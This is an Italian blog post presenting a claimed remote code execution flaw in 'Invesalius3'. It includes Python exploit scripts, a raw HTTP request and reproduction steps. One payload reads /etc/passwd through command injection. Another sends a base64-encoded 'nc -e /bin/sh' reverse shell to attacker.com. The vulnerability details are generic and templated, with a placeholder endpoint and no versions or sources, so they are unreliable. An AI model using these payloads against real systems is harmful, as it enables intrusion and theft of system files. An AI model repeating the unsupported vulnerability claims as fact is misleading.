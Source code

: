 ```yaml
---
layout: post
title: "[webapps] Invesalius3 - Remote Code Execution"
date: 2024-08-28
categories: [security, ransomware]
---
```


# [webapps] Invesalius3 - Remote Code Execution

## Introduzione

Nel mondo della sicurezza informatica, la vulnerabilità di Remote Code Execution (RCE) è una delle più pericolose. Questa vulnerabilità consente a un attaccante di eseguire codice arbitrario su un sistema remoto. In questa particolare occasione, la vulnerabilità è stata identificata nel software Invesalius3, una popolare applicazione web.

## Dettagli della Vulnerabilità

La vulnerabilità RCE in Invesalius3 si manifesta a causa della mancata sanificazione dell'input dall'utente, che consente a un attaccante di iniettare ed eseguire codice arbitrario. Questa vulnerabilità riguarda tutte le versioni di Invesalius3 fino alla data di rilevazione il 28 Agosto 2024.

## Esempio di Payload Semplice

Un esempio semplice di come potrebbe apparire un payload per questa vulnerabilità è il seguente:

{{% raw %}}
```python
import requests
target = "http://target/invesalius"
payload = {"cmd":";cat /etc/passwd"}
r = requests.post(target, data=payload)
print(r.text)
```
{{% endraw %}}

## Esempio di Payload Avanzato

Un esempio più avanzato, che potrebbe essere utilizzato in un vero attacco, sarebbe il seguente:

{{% raw %}}
```python
import requests
import base64
target = "http://target/invesalius"
command = base64.b64encode(b"nc -e /bin/sh attacker.com 4444")
payload = {"cmd": ";echo {} | base64 -d | sh".format(command.decode())}
r = requests.post(target, data=payload)
```
{{% endraw %}}

## Procedura per riprodurre la vulnerabilità

Per riprodurre questa vulnerabilità, un attaccante dovrebbe seguire i seguenti passaggi:

1. Identificare un sistema target che esegue una versione vulnerabile di Invesalius3.
2. Creare un payload, come quello mostrato sopra, che contiene codice arbitrario da eseguire sul sistema target.
3. Inviare una richiesta HTTP POST al sistema target con il payload incorporato.

## Richiesta HTTP

La richiesta HTTP che viene inviata al sistema target per sfruttare questa vulnerabilità potrebbe apparire come segue:

{{% raw %}}
```
POST /invesalius HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: length

cmd=;cat /etc/passwd
```
{{% endraw %}}

## Impatto della vulnerabilità

Se sfruttata, questa vulnerabilità potrebbe permettere ad un attaccante di prendere il controllo completo del sistema target. Potrebbe essere utilizzata per eseguire qualsiasi comando sul sistema target, incluso l'accesso a dati sensibili, l'esecuzione di ulteriori exploit o l'installazione di malware.

## Patch e Mitigazioni

Al momento della pubblicazione, non è stata rilasciata alcuna patch ufficiale per questa vulnerabilità. Si consiglia agli sviluppatori e agli amministratori di sistema di aggiornare a una versione non vulnerabile del software non appena disponibile. Nel frattempo, si consiglia di limitare l'accesso alla funzione vulnerabile o di disabilitarla completamente.

## Conclusione

Questa vulnerabilità RCE in Invesalius3 rappresenta una grave minaccia per la sicurezza dei sistemi che eseguono questo software. È essenziale che gli sviluppatori e gli amministratori di sistema prendano misure per mitigare questa minaccia il prima possibile.

## Considerazioni

Questo caso sottolinea l'importanza di una gestione dell'input dell'utente accurata e sicura, in quanto un singolo errore può portare a una vulnerabilità RCE. Le organizzazioni devono implementare una cultura della sicurezza del software, che include tecniche di programmazione sicure, test di sicurezza regolari e aggiornamenti tempestivi del software per proteggere i loro sistemi e dati.

